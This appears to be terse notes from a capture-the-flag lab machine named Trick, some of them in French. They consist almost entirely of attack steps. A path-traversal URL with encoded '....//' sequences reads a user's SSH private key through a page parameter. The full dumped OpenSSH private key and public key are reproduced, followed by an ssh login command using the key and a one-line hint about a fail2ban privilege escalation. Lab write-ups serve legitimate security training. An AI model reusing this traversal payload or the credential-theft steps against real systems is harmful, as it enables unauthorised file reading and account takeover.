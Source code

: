 # url ssh
http://preprod-marketing.trick.htb/index.php?page=....%2F%2F....%2F%2F....%2F%2F....%2F%2F....%2F%2F....%2F%2F....%2F%2Fhome%2Fmichael%2F.ssh%2Fid_rsa.pub or id_rsa simple

-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABFwAAAAdzc2gtcn
NhAAAAAwEAAQAAAQEAwI9YLFRKT6JFTSqPt2/+7mgg5HpSwzHZwu95Nqh1Gu4+9P+ohLtz
c4jtky6wYGzlxKHg/Q5ehozs9TgNWPVKh+j92WdCNPvdzaQqYKxw4Fwd3K7F4JsnZaJk2G
YQ2re/gTrNElMAqURSCVydx/UvGCNT9dwQ4zna4sxIZF4HpwRt1T74wioqIX3EAYCCZcf+
4gAYBhUQTYeJlYpDVfbbRH2yD73x7NcICp5iIYrdS455nARJtPHYkO9eobmyamyNDgAia/
Ukn75SroKGUMdiJHnd+m1jW5mGotQRxkATWMY5qFOiKglnws/jgdxpDV9K3iDTPWXFwtK4
1kC+t4a8sQAAA8hzFJk2cxSZNgAAAAdzc2gtcnNhAAABAQDAj1gsVEpPokVNKo+3b/7uaC
DkelLDMdnC73k2qHUa7j70/6iEu3NziO2TLrBgbOXEoeD9Dl6GjOz1OA1Y9UqH6P3ZZ0I0
+93NpCpgrHDgXB3crsXgmydlomTYZhDat7+BOs0SUwCpRFIJXJ3H9S8YI1P13BDjOdrizE
hkXgenBG3VPvjCKiohfcQBgIJlx/7iABgGFRBNh4mVikNV9ttEfbIPvfHs1wgKnmIhit1L
jnmcBEm08diQ716hubJqbI0OACJr9SSfvlKugoZQx2Iked36bWNbmYai1BHGQBNYxjmoU6
IqCWfCz+OB3GkNX0reINM9ZcXC0rjWQL63hryxAAAAAwEAAQAAAQASAVVNT9Ri/dldDc3C
aUZ9JF9u/cEfX1ntUFcVNUs96WkZn44yWxTAiN0uFf+IBKa3bCuNffp4ulSt2T/mQYlmi/
KwkWcvbR2gTOlpgLZNRE/GgtEd32QfrL+hPGn3CZdujgD+5aP6L9k75t0aBWMR7ru7EYjC
tnYxHsjmGaS9iRLpo79lwmIDHpu2fSdVpphAmsaYtVFPSwf01VlEZvIEWAEY6qv7r455Ge
U+38O714987fRe4+jcfSpCTFB0fQkNArHCKiHRjYFCWVCBWuYkVlGYXLVlUcYVezS+ouM0
fHbE5GMyJf6+/8P06MbAdZ1+5nWRmdtLOFKF1rpHh43BAAAAgQDJ6xWCdmx5DGsHmkhG1V
PH+7+Oono2E7cgBv7GIqpdxRsozETjqzDlMYGnhk9oCG8v8oiXUVlM0e4jUOmnqaCvdDTS
3AZ4FVonhCl5DFVPEz4UdlKgHS0LZoJuz4yq2YEt5DcSixuS+Nr3aFUTl3SxOxD7T4tKXA
fvjlQQh81veQAAAIEA6UE9xt6D4YXwFmjKo+5KQpasJquMVrLcxKyAlNpLNxYN8LzGS0sT
AuNHUSgX/tcNxg1yYHeHTu868/LUTe8l3Sb268YaOnxEbmkPQbBscDerqEAPOvwHD9rrgn
In16n3kMFSFaU2bCkzaLGQ+hoD5QJXeVMt6a/5ztUWQZCJXkcAAACBANNWO6MfEDxYr9DP
JkCbANS5fRVNVi0Lx+BSFyEKs2ThJqvlhnxBs43QxBX0j4BkqFUfuJ/YzySvfVNPtSb0XN
jsj51hLkyTIOBEVxNjDcPWOj5470u21X8qx2F3M4+YGGH+mka7P+VVfvJDZa67XNHzrxi+
IJhaN0D5bVMdjjFHAAAADW1pY2hhZWxAdHJpY2sBAgMEBQ==
-----END OPENSSH PRIVATE KEY-----

ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDAj1gsVEpPokVNKo+3b/7uaCDkelLDMdnC73k2qHUa7j70/6iEu3NziO2TLrBgbOXEoeD9Dl6GjOz1OA1Y9UqH6P3ZZ0I0+93NpCpgrHDgXB3crsXgmydlomTYZhDat7+BOs0SUwCpRFIJXJ3H9S8YI1P13BDjOdrizEhkXgenBG3VPvjCKiohfcQBgIJlx/7iABgGFRBNh4mVikNV9ttEfbIPvfHs1wgKnmIhit1LjnmcBEm08diQ716hubJqbI0OACJr9SSfvlKugoZQx2Iked36bWNbmYai1BHGQBNYxjmoU6IqCWfCz+OB3GkNX0reINM9ZcXC0rjWQL63hryx michael@trick

# url ssh https://ctftime.org/writeup/22727

ssh michael@10.10.11.166 -p 22 -i newkey1

# root faille fail2ban, failed connections 6 fois